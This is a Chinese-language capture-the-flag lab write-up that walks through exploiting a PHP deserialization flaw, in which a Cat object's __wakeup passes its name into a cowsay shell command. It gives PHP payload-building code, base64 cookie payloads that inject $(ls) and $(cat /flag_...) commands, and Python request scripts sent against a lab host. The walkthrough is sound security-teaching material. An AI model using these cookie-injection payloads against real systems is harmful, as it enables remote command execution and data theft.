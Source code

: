 # lab_Baby_Cat

1. 這題進入網站之後，直接點進 Source Code 去看他的程式，然後我對這個程式的理解是，如果網址中有 'source' 參數，則顯示原始碼並停止程式（使用 **`show_source`** 和 **`die`** ），它定義了一個名為 Cat 的類別。Cat 類別有一個名為 $name 的 Public variable，預設值為 '(guest cat)'。Cat 類別有一個名為 __construct 的建構函式，當建立一個新的 Cat 物件時會執行，並將參數 $name 值給 $name 變數，Cat 類別還有一個名為 __wakeup 的函式，當 Cat 物件被反序列化（unserialize）時會執行。它會使用 cowsay 命令顯示一個訊息，內容為 "Welcome back, $this->name"。然後，如果 cookie 中沒有 cat_session，則建立一個新的 Cat 物件，並將它序列化（serialize）後加密（base64_encode）後儲存在 cookie 中。如果 cookie 中有 cat_session，則將 cookie 中的值反序列化（base64_decode、unserialize）後儲存在變數 $cat 中。最後，會顯示一個字串 "Hello, $cat->name."，就是一開始網站連進來的地方，
並提供一個連結可以查看原始碼。

![截圖 2023-01-05 上午10.24.44.png](lab_Baby_Cat%20ef0e7bc5c3894586ad89d5fdf21ac7f5/%25E6%2588%25AA%25E5%259C%2596_2023-01-05_%25E4%25B8%258A%25E5%258D%258810.24.44.png)

![截圖 2023-01-05 上午10.16.57.png](lab_Baby_Cat%20ef0e7bc5c3894586ad89d5fdf21ac7f5/%25E6%2588%25AA%25E5%259C%2596_2023-01-05_%25E4%25B8%258A%25E5%258D%258810.16.57.png)

1. 首先我們我們在 Cat 物件建立時，給 $name 參數，讓它放進 $this→name，這個時候執行 Cat 物件，他會去呼叫 __Wakeup 函數，Welcome Back 之後就會執行你給他的值 $this→name，如果我們這邊執行 $name 的值設定為 $(ls) 他就可以去執行 system("cowsay 'Welcome back, $(ls)'")。
    
    ```php
    $cat = new Cat("' $(ls) '");
    ```
    

1. 然後如果 Cookie 是空的，他會建立一個新的 cat 物件，但 $this→name 會是空的，如果 Cookie 是我們設定的值，他就會將取得的值反序列化後存在 $Cat ，然後會在 `<p>Hello, <?= $cat->name ?>.</p>`的時候執行它，因為他會將 Unserialize(Base64_Decode(Cat_Session))) 先 Decode 在反序列化，所以我們需要將 (Base64_Encode(Serialize(Cat_Session))) 先 序列化再 Encode 並設在 Cookie 裡，就可以透過 cat_session 把值給 $cat。
    
    ```php
    #In PHP
    $cat = new Cat("' $(ls) '");
    echo base64_encode(serialize($cat));
    ```
    
2. 然後將序列化根 base64_encode 過後的 cat 設為 cookie ，再對網站發出 Request，就成功執行自己的指令了，基本上到這邊就已經可以執行任意指令。

```python
import requests

# ' $(ls ) '
cookies={"cat_session": "TzozOiJDYXQiOjE6e3M6NDoibmFtZSI7czo5OiInICQobHMpICciO30="}

r = requests.get("http://h4ck3r.quest:8601/", cookies=cookies)
string = r.content.split(b'\n')
[print(string[i]) for i in range(len(string))]
```

![截圖 2023-01-05 上午11.01.47.png](lab_Baby_Cat%20ef0e7bc5c3894586ad89d5fdf21ac7f5/%25E6%2588%25AA%25E5%259C%2596_2023-01-05_%25E4%25B8%258A%25E5%258D%258811.01.47.png)

1. 翻了一下，在根目錄有個 flag_5fb2acebf1d0c558 檔案，用 cat 將它開啟後。就可以成功取得 FLAG。

```python
import requests

# ' $(ls ) '
#cookies={"cat_session": "TzozOiJDYXQiOjE6e3M6NDoibmFtZSI7czo5OiInICQobHMpICciO30="}
# ' $(ls /) '
#cookies={"cat_session": "TzozOiJDYXQiOjE6e3M6NDoibmFtZSI7czoxMToiJyAkKGxzIC8pICciO30="}

# ' $(cat /flag_5fb2acebf1d0c558) '
cookies={"cat_session": "TzozOiJDYXQiOjE6e3M6NDoibmFtZSI7czozMzoiJyAkKGNhdCAvZmxhZ181ZmIyYWNlYmYxZDBjNTU4KSAnIjt9"}

r = requests.get("http://h4ck3r.quest:8601/", cookies=cookies)
#print(r.content)
string = r.content.split(b'\n')
[print(string[i]) for i in range(len(string))]
```

![截圖 2023-01-05 上午11.04.05.png](lab_Baby_Cat%20ef0e7bc5c3894586ad89d5fdf21ac7f5/%25E6%2588%25AA%25E5%259C%2596_2023-01-05_%25E4%25B8%258A%25E5%258D%258811.04.05.png)